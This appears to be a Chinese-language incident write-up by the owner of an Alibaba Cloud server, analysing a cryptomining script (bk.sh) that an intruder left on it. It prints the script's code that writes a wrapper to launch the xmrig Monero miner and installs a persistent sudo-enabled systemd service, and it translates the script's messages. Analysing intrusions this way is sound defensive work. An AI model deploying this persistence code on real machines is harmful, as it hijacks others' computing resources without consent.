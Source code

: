 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)

## bk.sh，推测是靶机脚本(注入service部分)

### `cat >/tmp/c3pool_miner.service <<EOL` 注入设置脚本后台启动等

#### EOL注入脚本文件

参考信息源：

* [知乎专栏-heredoc入门](https://zhuanlan.zhihu.com/p/93993398)
* [linux265-pidof命令](https://linux265.com/course/linux-command-pidof.html)
* [linux265-nice命令](https://linux265.com/course/linux-command-nice.html)

`<<EOL EOL`创建与书写任意格式文本及代码。`pidof xxx`为查看xxx程序的进程号。nice命令调度进程的优先级，根据教程资料来看，黑客的代码语法还有些问题。

```
cat >$HOME/c3pool/miner.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice $HOME/c3pool/xmrig \$*
else
  echo ""
fi
EOL
```

#### service内容解读


```
  if ! type systemctl >/dev/null; then

    echo ""
	echo ""
    /bin/bash $HOME/c3pool/miner.sh --config=$HOME/c3pool/config_background.json >/dev/null 2>&1
    echo "ERROR: This script requires \"systemctl\" systemd utility to work correctly."
    echo "Please move to a more modern Linux distribution or setup miner activation after reboot yourself if possible."

  else

    echo "[*] Creating c3pool_miner systemd service"
    cat >/tmp/c3pool_miner.service <<EOL
[Unit]
Description=Monero miner service

[Service]
ExecStart=$HOME/c3pool/xmrig --config=$HOME/c3pool/config.json
Restart=always
Nice=10
CPUWeight=1

[Install]
WantedBy=multi-user.target
EOL
    sudo mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
    echo ""
	echo ""
    sudo killall xmrig 2>/dev/null
    sudo systemctl daemon-reload
    sudo systemctl enable c3pool_miner.service
    sudo systemctl start c3pool_miner.service
    echo "To see miner service logs run \"sudo journalctl -u c3pool_miner -f\" command"
	echo ""
  fi
```

## “echo”及“#”打印及注释信息收集

### echo

"echo"部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

### “#”（全部为机翻）

打印问候语；命令行参数；检查先决条件

```
# printing greetings
# command line arguments
# checking prerequisites
```

计算端口；印刷的意图；开始做事：准备矿工

```
# calculating port
# printing intentions
# start doing stuff: preparing miner
```

准备脚本

```
# preparing script
```

准备脚本后台工作和重启时的工作

```
# preparing script background work and work under reboot
```